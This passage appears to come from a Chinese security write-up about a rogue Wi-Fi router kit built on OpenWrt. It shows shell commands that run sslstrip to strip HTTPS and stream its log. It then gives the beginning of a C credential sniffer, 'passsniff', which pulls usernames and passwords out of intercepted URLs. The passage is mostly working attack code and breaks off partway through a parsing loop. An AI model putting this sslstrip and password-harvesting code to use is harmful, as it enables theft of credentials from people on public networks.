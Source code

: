 而 sslstrip 本身是输出一个 log 文件

```
sslstrip -w ${1}/sslstrip.log -l 10000 & 
tail -f ${1}/sslstrip.log|stripsslstrip & 
```

使用 tail 就可以实现实时输出

## 0x03 自动机设计：

* * *

以 passsniff 为例介绍 C 语言自动机设计：

```
/*
    code by lxj616@wooyun
*/
#include <stdlib.h>
#include <errno.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <stdio.h>
#include <unistd.h>

//Openwrt 默认权限可以读写 etc 下文件
void get_basepath(char *basepath)
{
    FILE *fp1;
    fp1 = fopen("/etc/wooyunwifi/basepath.conf","r");
    fscanf(fp1,"%s",basepath);  
    fclose(fp1);
}

//解析 URL 中用户名和密码
void strip_pass(char *basepath,char *buffer,char *host)
{
    int i;
    int flag=0;
    char *user;
    char *pass;
    user=strstr(buffer,"user");
    pass=strstr(buffer,"pass");

    if(user&&pass)
    {
        user=strstr(user,"=")+1;
        pass=strstr(pass,"=")+1;

        for(i=0;user[i]!='\0'&&flag==0;i++)
        {
            if(user[i]=='&')
            {
                user[i]='\0';
                flag=1;
            }
        }
        flag=0;
        for(i=0;pass[i]!='\0'&&flag==0;i++)
        {
            if(pass[i]=='&')
```